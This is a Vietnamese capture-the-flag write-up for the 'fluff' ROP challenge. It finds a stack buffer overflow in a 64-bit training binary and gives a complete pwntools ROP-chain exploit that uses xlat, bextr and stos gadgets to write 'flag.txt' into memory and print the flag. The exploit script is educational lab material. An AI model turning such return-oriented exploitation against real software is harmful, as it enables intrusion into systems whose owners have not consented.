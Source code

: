**1. Tìm lỗi**

Chạy thử chương trình ta thấy:

![run.png](photo/run.png)

Chương trình cho phép chúng ta nhập vào 1 chuỗi rồi kết thúc ngay sau đó

Dùng lệnh checksec để kiểm tra

![checksec.png](photo/checksec.png)

Ta thấy canary đang ở trạng thái disabled nên có thể khai thác qua lỗ hổng bof

Dùng lệnh file để kiểm tra:

![file.png](photo/file.png)

Ta thấy là file elf64 bit

Ta có mã assembly hàm main như sau:

![main.png](photo/main.png)

Ở hàm main chỉ thực hiện gọi hàm pwnme, ta có hàm pwnme như sau:

![pwnme.png](photo/pwnme.png)

Ta thấy ở hàm pwnme có khoảng cách từ biến đển ret là 0x20 + 0x8 = 40 nhưng cho nhập 0x200 = 512 byte -> Có lỗi bof

Ta có hàm usefulFunction:

![use.png](photo/use.png)

Ở hàm này chỉ gọi hàm print_file với tham số được truyền vào, xét hàm print_file ta có:

![print_file.png](photo/print_file.png)

Ở hàm này khi truyền tên file vào thanh ghi rdi thì chương trình sẽ đọc và ghi nội dụng của tệp ra. Chúng ta có thể chèn vào chuỗi flag.txt để lấy giá trị flag

Để ghi vào rdi thì trước đó phải pop rdi ra

![pop_rdi.png](photo/pop_rdi.png)

Ta thấy địa chỉ 0x00000000004006a3 đã có lệnh pop rdi

Ngoài ra còn hàm questionableGadgets:

![ques.png](photo/ques.png)

Theo tìm hiểu:
 - xlat: là một lệnh assembly x86 được sử dụng để thực hiện việc chuyển đổi các giá trị trong bảng chữ cái theo bảng mã ASCII hoặc EBCDIC. Ở đây xlat sẽ chuyển đổi giá trị tại địa chỉ ds:[rbx] trong bảng chữ cái và lưu trữ nó trong thanh ghi AL.

 - bextr: là một lệnh xử lý bit trong CPU Intel x86_64, được sử dụng để lấy một số bit liên tiếp từ một thanh ghi và lưu chúng vào một vị trí mới trong một thanh ghi khác. Ở đây bextr rbx,rcx,rdx, nó có ý nghĩa là lấy một số bit liên tiếp từ thanh ghi rcx, bắt đầu từ bit ở vị trí rdx và lưu trữ chúng vào thanh ghi rbx.

 - stos: là một instruction dùng để lưu trữ một byte (hoặc một từ hoặc một double word) từ thanh ghi AL (hoặc thanh ghi AX hoặc thanh ghi EAX) vào vị trí được chỉ định bởi thanh ghi RDI trong bộ nhớ. Đồng thời, nó cũng có thể tăng hoặc giảm địa chỉ được chỉ định bởi thanh ghi RDI. Ở đây stos BYTE PTR es:[rdi],al được sử dụng để lưu trữ giá trị của thanh ghi AL vào địa chỉ được chỉ định bởi thanh ghi RDI trong bộ nhớ và tăng giá trị của thanh ghi RDI lên đúng 1 byte.

**2. Ý tưởng**

Để ghi chuỗi flag.txt vào thanh ghi rdi thì chúng ta sử dụng stos với yêu cầu chúng ta kiểm soát được flag nên xlat được sử dụng tiếp theo. Nhưng xlatb sử dụng nội dung trong rbx nên bextr cũng được sử dụng

Ở trước bextr có câu lệnh add rcx, 0x3ef2 nên khi thực hiện phải trừ 0x3ef2

**3. Viết script**

Tìm địa chỉ trống để lưu chuỗi

![vmmap.png](photo/vmmap.png)

Ta thấy địa chỉ 0x601030 còn trống nên có thể ghi vào

Ta có script như sau:

```
from pwn import *

elf = ELF('./fluff')
r = process('./fluff')

pop_rdi = 0x00000000004006a3
rw_section = 0x601030
xlat = 0x0000000000400628
bextr = 0x000000000040062a
stos = 0x0000000000400639
sub = 0x3ef2
print_file = 0x0000000000400620
flag = b"flag.txt"
char = []

#Đổi chuỗi flag về hex
for i in flag:
    addr = hex(read('fluff').find(i) + elf.address)
    #print(addr)
    char.append(addr)
    #print(char)

rax = 0xb
payload = b'a'*40

#Ghi từng hex của char vào địa chỉ trống
for i, char in enumerate(char):
    if (i != 0):
        rax = flag[i-1]
    payload += p64(bextr) #pop rdx, pop rcx, add rcx 0x3ef2, bextr
    payload += p64(0x4000) 
    payload += p64(int(char, 16) - rax - 0x3ef2)
    payload += p64(xlat)
    payload += p64(pop_rdi)
    payload += p64(rw_section + i)
    payload += p64(stos)

payload += p64(pop_rdi) + p64(rw_section)
payload += p64(print_file)

r.sendafter('> ', payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)
